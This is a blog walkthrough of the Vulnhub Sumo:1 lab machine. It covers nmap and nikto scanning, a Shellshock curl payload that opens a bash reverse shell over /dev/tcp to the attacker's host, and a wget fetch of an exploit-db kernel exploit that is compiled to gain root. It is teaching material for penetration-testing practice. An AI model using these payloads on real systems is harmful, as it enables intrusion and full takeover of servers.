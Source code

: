 ```yaml
---
date: 2020-06-17 00:36:33
layout: post
title: "Sumo Vulnhub Walkthrough"
subtitle:
description: Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners.
image: /assets/img/uploads/sumo/sumo-optimized.png
optimized_image: /assets/img/uploads/sumo/sumo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: sumo, sumo 1 vulnhub, vulnhub, sumo vulnhub walkthrough, sumo vulnhub writeup, vulnhub sumo, infosec articles, sumo vulnhub writeup
---
```


Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners. This includes exploiting a shellshock vulnerability to get a reverse shell and then exploiting the old version kernel used by the VM to get root. I've added the IP to my hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.16    sumo.local
```

## Initial Enumeration and User Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/sumo sumo.local

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:06 IST
Nmap scan report for sumo.local (192.168.1.16)
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:97:C2:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

We have a port 80 open which displays a default web server page that says "It Works!"

<center><br>
<img src="/assets/img/uploads/sumo/port80.png">
</center>

<p align="justify">
Next I ran a gobuster scan to look for hidden directories, but didn't find anything interesting there. Then I performed a nikto scan to search for some web based vulnerabilities and found that this web server is vulnerable to <b>shellshock vulnerability.</b> </p>

```r
root@kali:~# nikto -h sumo.local
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.16
+ Target Hostname:    sumo.local
+ Target Port:        80
+ Start Time:         2020-06-16 13:11:34 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 23:25:10 2020
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /cgi-bin/test/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8595 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-06-16 13:12:15 (GMT5.5) (41 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
If you don't know about shellshock vulnerability, I recommend reading about it <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" rel=”nofollow”>here.</a> I tested the vulnerability by running the <b>id</b> command.
```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://sumo.local/cgi-bin/test/test.cgi  

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excellent, We were able to exploit this vulnerability. Now I executed a payload to open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.6/9001 0>&1' http://sumo.local/cgi-bin/test/test.cgi  
```
I opened a netcat listener on the other terminal and we got the reverse shell.

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.16] 60230
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
<p align="justify">
Getting root on this machine was quite easy and straightforward. This machine is using an old version of kernel. There are many exploits available to escalate the privileges. One of the most famous is Dirty Cow but I won't be using it here.
</p>

```r
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Instead I used <a href="https://www.exploit-db.com/exploits/33589" rel=”nofollow”> this exploit</a> from exploitdb. I downloaded this exploit on my host machine and started a python http server and transferred it to the target machine in the tmp directory.

```r
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.1.6:8000/33589.c
wget http://192.168.1.6:8000/33589.c     
--2020-06-16 03:50:50--  http://192.168.1.6:8000/33589.c
Connecting to 192.168.1.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]         
Saving to: `33589.c'                     

     0K ...         100%  242M=0s
2020-06-16 03:50:50 (242 MB/s) - `33589.c' saved [3664/3664]
```
Then I tried to compile the exploit but it gave an error. This error can be fixed by updating the path variables using the following command:

```r
www-data@ubuntu:/tmp$ PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH   
```

This time the exploit compiled without any errors, I gave the exploit executable permissions and after running the exploit, we were root!  

```r
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o exploit
gcc 33589.c -O2 -o exploit

www-data@ubuntu:/tmp$ chmod 777 exploit && ./exploit 0
chmod 777 exploit && ./exploit 0

stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/MarkusM" rel=”nofollow”>Markus Magnusson.</a>